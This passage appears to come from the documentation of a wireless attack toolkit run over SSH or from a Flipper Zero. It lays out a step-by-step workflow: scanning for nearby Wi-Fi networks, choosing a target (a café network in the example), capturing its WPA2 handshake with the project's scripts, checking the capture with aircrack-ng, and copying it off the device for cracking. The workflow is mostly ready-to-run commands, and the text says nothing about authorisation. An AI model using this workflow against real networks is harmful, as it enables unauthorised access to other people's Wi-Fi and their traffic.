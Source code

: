 ```bash
poweroff                          # Shutdown device
```

---

## Workflow Examples

### Workflow 1: Complete Reconnaissance to Capture

**Goal:** Discover networks, select target, capture handshake

**Via SSH (Full Control):**

```bash
# Step 1: SSH Connect
ssh root@192.168.178.122

# Step 2: Comprehensive scan (60 seconds)
./01-recon-pipeline.sh wlan0 60 /root/recon

# Step 3: Review results
cat /root/recon/recon_*.csv
# Find target: AA:BB:CC:DD:EE:FF,6,-45,WPA2,CoffeeWiFi,2

# Step 4: Capture handshake (5 attempts max)
./02-handshake-capture.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 /root/captures 5

# Step 5: Verify handshake
aircrack-ng /root/captures/handshake_*-01.cap

# Step 6: Download capture
# From your computer:
scp root@192.168.178.122:/root/captures/handshake_*-01.cap ./
```

**Via Flipper (Simplified):**

```
# Step 1: Run recon from Flipper
bh script run wifi_recon
# Wait 30 seconds

# Step 2: SSH to review results
ssh root@192.168.178.122
cat /root/recon/recon_*.csv

# Step 3: Configure target
cat > /root/target.conf << EOF
BSSID=AA:BB:CC:DD:EE:FF
CHANNEL=6
ESSID=CoffeeWiFi
EOF
exit

# Step 4: Capture from Flipper
bh script run capture_handshake

# Step 5: Download via SSH
scp root@192.168.178.122:/root/captures/handshake_*.cap ./
```

---